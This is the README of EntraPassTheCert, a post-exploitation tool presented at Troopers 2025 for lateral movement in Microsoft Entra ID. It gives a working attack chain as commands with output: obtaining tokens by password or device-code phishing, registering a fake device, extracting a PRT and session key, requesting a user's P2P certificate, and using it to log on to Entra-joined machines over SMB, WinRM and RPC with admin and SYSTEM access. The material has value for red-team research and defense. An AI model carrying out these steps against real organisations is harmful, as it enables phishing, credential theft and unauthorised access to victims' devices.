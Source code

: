 # EntraPassTheCert

EntraPassTheCert is a post-exploitation tool that allows attackers to request Entra ID's user P2P certificate and authenticate to a remote Entra joinned machine with it.

```
$ python3 entraptc.py -h

usage: entraptc.py [-h] [--debug] {request_p2pcert,smb,rdp,winrm,rpc} ...

post-exploitation tool for requesting p2p cert and authenticate with it

positional arguments:
  {request_p2pcert,smb,rdp,winrm,rpc}
                        Available commands
    request_p2pcert     request P2P cert with PRT and SessionKey
    smb                 SMB to Entra joinned machine with P2P cert
    rdp                 RDP to Entra joinned machine with P2P cert
    winrm               WinRM to Entra joinned machine with P2P cert
    rpc                 RPC to Entra joinned machine with P2P cert

options:
  -h, --help            show this help message and exit
  --debug               debug option
```

The code is built based on the existing great tools.

- [impacket](https://github.com/fortra/impacket)
- [ROADTools](https://github.com/dirkjanm/ROADtools)
- [AADInternals](https://github.com/Gerenios/AADInternals)
- [pywinrm](https://github.com/diyan/pywinrm)
- [aardwolf](https://github.com/skelsec/aardwolf)


This tool is presented at Troopers 2025:

[Hopping Accross Devices: Expanding Lateral Movement through Pass-the-Certificate Attack](https://troopers.de/troopers25/talks/afv8bw/)

## Usage

### Request P2P certificate 

First, acquire required Microsoft Entra tokens with the credentials of any account that has local administrator access to a target device.

```bash
$ roadtx gettokens -r devicereg -c 29d9ed98-a469-4536-ade2-f981bc1d605e -u globaladmin@***.onmicrosoft.com -p $PASSWORD
Requesting token for resource urn:ms-drs:enterpriseregistration.windows.net
Tokens were written to .roadtools_auth
```

If you don't have the credentials, you could also execute devie-code phishing to acquire the tokens.

```bash
$ roadtx gettokens --device-code -r devicereg -c 29d9ed98-a469-4536-ade2-f981bc1d605e
Requesting token for resource urn:ms-drs:enterpriseregistration.windows.net
To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code HGCUCJ6CS to authenticate.
Tokens were written to .roadtools_auth
```

Next, Register a fake device to Entra ID.

```bash
$ roadtx device -a join -n fake_device
Saving private key to fake_device.key
Registering device
Device ID: 0d9d2d66-7343-4bf2-a3dd-377c9e1e6244
Saved device certificate to fake_device.pem
```

Then, using the registed device, request PRT and session key.

```bash
$ REFRESHTOKEN=(`cat .roadtools_auth | jq -r .refreshToken`) 

$ roadtx prt -c fake_device.pem -k fake_device.key -r $REFRESHTOKEN
Obtained PRT: 1.AT0A7mRQZ....
Obtained session key: fabd04bf017c526fd...
Saved PRT to roadtx.prt
```

Once you receive PRT and session key, you can request user's P2P certificate.

```bash
$ PRT=(`cat roadtx.prt | jq -r .refresh_token`)

$ SESSIONKEY=(`cat roadtx.prt | jq -r .session_key`)

$ python3 entraptc.py request_p2pcert --prt $PRT --sessionkey $SESSIONKEY
[*] requesting P2P cert...
[+] successfully acquired P2P cert!
[*] here is your p2p cert pfx : p2pcert.pfx (pw: password)

```

### Pass the P2P certificate

You can authenticate to a Entra joinned machine using the P2P certificate as follows.

- SMB

```bash
$ python3 entraptc.py smb --target 192.168.153.133 --pfx p2pcert.pfx      
[*] connecting to 192.168.153.133 via SMB...
[+] sucessfully logged-on to the system!
Type help for list of commands
# shares
ADMIN$
C$
IPC$
# use C$
# ls
drw-rw-rw-          0  Fri May 30 15:52:50 2025 $Recycle.Bin
drw-rw-rw-          0  Sat Apr 19 01:54:46 2025 Documents and Settings
-rw-rw-rw-      12288  Sun Jun 15 10:45:59 2025 DumpStack.log.tmp
drw-rw-rw-          0  Fri May 30 09:06:09 2025 inetpub
-rw-rw-rw-  738197504  Sun Jun 15 10:45:58 2025 pagefile.sys
drw-rw-rw-          0  Sat Apr 19 02:49:28 2025 PerfLogs
drw-rw-rw-          0  Tue Jun 10 14:58:44 2025 Program Files
drw-rw-rw-          0  Tue May 27 15:59:56 2025 Program Files (x86)
drw-rw-rw-          0  Tue Jun 10 14:54:46 2025 ProgramData
drw-rw-rw-          0  Sat Apr 19 01:53:41 2025 Recovery
-rw-rw-rw-   16777216  Sun Jun 15 10:45:59 2025 swapfile.sys
drw-rw-rw-          0  Fri May 30 09:39:44 2025 System Volume Information
drw-rw-rw-          0  Fri May 30 15:52:23 2025 Users
drw-rw-rw-          0  Wed Jun 11 09:30:27 2025 Windows
```

- WinRM

```bash
$ python3 entraptc.py winrm --target 192.168.153.133 --pfx p2pcert.pfx
[*] connecting to 192.168.153.133 via WinRM...
[+] sucessfully logged-on to the system!

C:\Users\admin> whoami
azuread\admin
```

- RPC

```bash
$ python3 entraptc.py rpc --target 192.168.153.133 --pfx p2pcert.pfx                                                                   

[*] connecting to 192.168.153.133 via RPC...
[+] sucessfully logged-on to the system!

C:\Windows\System32>whoami
nt authority\system
```

- RDP
  - You need to specify the account's credentials

```bash
$ python3 entraptc.py rdp --username globaladmin@***.onmicrosoft.com --password $PASSWORD --target 192.168.153.133 --pfx p2pcert.pfx
```

## Notes

- The target machine should be Entra joinned machine, not Hybrid Entra joinned or Entra registered
- Tested Windows 11/10 machine but not Windows server

## Reference

https://medium.com/@mor2464/azure-ad-pass-the-certificate-d0c5de624597